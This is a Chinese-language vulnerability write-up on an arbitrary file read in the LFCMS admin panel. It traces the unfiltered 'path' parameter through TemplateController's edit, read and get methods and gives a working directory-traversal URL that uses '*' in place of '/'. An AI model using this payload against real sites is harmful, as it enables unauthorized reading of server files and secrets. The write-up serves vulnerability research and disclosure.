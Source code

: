 LFCMS 后台任意文件读取漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞起始点位于`/Application/Admin/Controller/TemplateController.class.php`中的`edit`方法，该方法用作后台模板编辑，关键代码如下![1.png](./resource/LFCMS后台任意文件读取漏洞/media/rId24.png)

我们传入的路径需要将`/`替换为`*`接着调用了`read`方法，跟进该方法

    public function read($filename,$type=''){
          return $this->get($filename,'content',$type);
    }

继续跟进get方法

    public function get($filename,$name,$type='') {
        if(!isset($this->contents[$filename])) {
            if(!is_file($filename)) return false;
            $this->contents[$filename]=file_get_contents($filename);
        }
        $content=$this->contents[$filename];
        $info   =   array(
                    'mtime'     =>  filemtime($filename),
                    'content'   =>  $content
                );
        return $info[$name];
    }
    }

该方法中返回了要读取的文件内容，可以看到在整个流程中没有对传入参数`path`的过滤，导致我们可以跨目录读文件，下面来验证一下，尝试读取一下跟目录`index.php`文件，测试链接如下

    http://www.0-sec.org/admin.php?s=/Template/edit/path/*..*index.php

![2.png](./resource/LFCMS后台任意文件读取漏洞/media/rId25.png)

成功的读到了`CMS`的入口文件

参考链接
--------

> https://xz.aliyun.com/t/7844\#toc-4
